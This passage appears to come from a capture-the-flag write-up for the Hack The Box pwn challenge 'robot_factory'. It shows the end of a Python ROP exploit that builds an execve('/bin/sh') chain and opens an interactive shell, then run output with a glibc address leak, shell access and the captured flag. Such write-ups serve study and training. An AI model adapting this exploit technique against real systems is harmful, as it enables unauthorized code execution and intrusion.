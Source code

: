 ```python
rop += binsh_addr
rop += pop_rsi
rop += p64(0)
rop += pop_rdx_rbx
rop += p64(0)
rop += p64(0)
rop += execve_addr
rop = rop.ljust(120, b'B')

########### GET SHELL ###########
r.sendlineafter(b'1: ', rop)
r.sendlineafter(b'size: ', b'20')
r.recv()
r.interactive("pwned ~$ ")
```

Result of execution : 

```bash
$ python3 solve.py
[*] '/root/htb_pwn_robot_factory/robot_factory'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x3ff000)
    RUNPATH:  b'.'
[*] '/root/htb_pwn_robot_factory/libc.so.6'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Opening connection to 64.227.38.214 on port 31965: Done
[+] leak : b'\x0bpU\x06\xcc\x7f'
[+] glibc base address : 0x7fcc064bd000
[*] Switching to interactive mode
pwned ~$ id
uid=999(ctf) gid=999(ctf) groups=999(ctf)
pwned ~$ cat flag.txt
HTB{th3_r0b0t5_4r3_0utt4_c0ntr0l!}
[*] Got EOF while reading in interactive
[*] Closed connection to 64.227.38.214 port 31965
```
